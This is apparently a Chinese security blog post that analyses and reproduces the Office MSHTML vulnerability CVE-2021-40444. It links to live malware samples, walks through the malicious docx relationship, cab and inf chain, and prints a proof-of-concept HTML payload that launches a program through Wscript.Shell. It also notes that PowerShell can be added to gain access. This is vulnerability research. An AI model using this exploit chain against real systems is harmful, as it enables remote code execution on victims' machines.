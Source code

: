 #  0Day - CVE-2021-40444 分析与利用

原创 校长  [ 不懂安全的校长 ](javascript:void\(0\);)

**不懂安全的校长** ![]()

微信号 sectip

功能介绍 校长不懂安全，总是发些奇奇怪怪的笔记！

____

__

收录于话题

## 0x01 前言

最近这个CVE-2021-40444挺多人想复现的，于是今天就抽空的来看了一下。

 **样本:**

`https://bazaar.abuse.ch/sample/938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52/`

`https://bazaar.abuse.ch/sample/d0fd7acc38b3105facd6995344242f28e45f5384c0fdf2ec93ea24bfbc1dc9e6`

`https://bazaar.abuse.ch/sample/1fb13a158aff3d258b8f62fe211fabeed03f0763b2acadbccad9e8e39969ea00`

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222738.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222744.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222745.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222746.png)

## 0x02 分析

在测试环境中打开文档

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222747.png)是的，它在远程加载！

我们先开启开发工具

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222748.png)

然后解压我们下载的`.docx`,使用`7-Zip`来提取文件

![]()`\word\_rels\document.xml.rels`找到这个文件然后打开它

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222749.png)发现时通过`MSHTML`来进行远程代码执行

查看它的`html`文件，该文件包含混淆的
`JavaScript`![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222751.png)

提取一下下载的`.cab`文件，发现里面从提取出名字为`Championship.inf`的文件，并使用目录遍历攻击来运行该文件

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222752.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222753.png)

梳理一下，它是通过打开文档来远程加载文件地址，然后在本地执行`cab文件`并且在内存中加载`Championship.inf`

这么看来其实利用很简单！

## 0x03 复现

我们自己本地配置一下环境
修改`\word\_rels\document.xml.rels`把原先地址修改成我们的![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222754.png)

参考文档:

`https://www.freebuf.com/articles/network/243747.html`

 **side.html:**

    
    
    <html>  
    <head>  
    <meta http-equiv="Content-Language" content="en-us">  
    <meta http-equiv="Content-Type" content="text/html; charset=windows-1252">  
    <title>Outlook</title>  
    <script id=clientEventHandlersVBS language=vbscript>  
      
    <!--  
     Sub window_onload()  
         Set cmd = CreateObject("Wscript.Shell")  
         cmd.Run("calc")  
     End Sub  
    -->  
    </script>  
    </head>  
    <body>  
    <h1>CVE-2021-40444</h1>  
     <object classid="clsid:edbc374c-5730-432a-b5b8-de94f0b57217" id="ViewCtl1" data="" width="100%" height="100%"></object>  
    </body>  
    </html>  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222756.png)

## 0x04 结尾

稍微的结合一下`Powershell`即可打开获取权限![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222757.png)

 **  
**

 **题外话(知识星球):** 分享Red Team技巧｜资源｜工具 等等 我的学习笔记也会发在这里，顺便督促自己不断学习 &&
偶尔比较佛，或者有事会断更。但是校长一定会一直更新下去的！包括但不限于红队内容。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910222758.png)

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

0Day - CVE-2021-40444 分析与利用

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

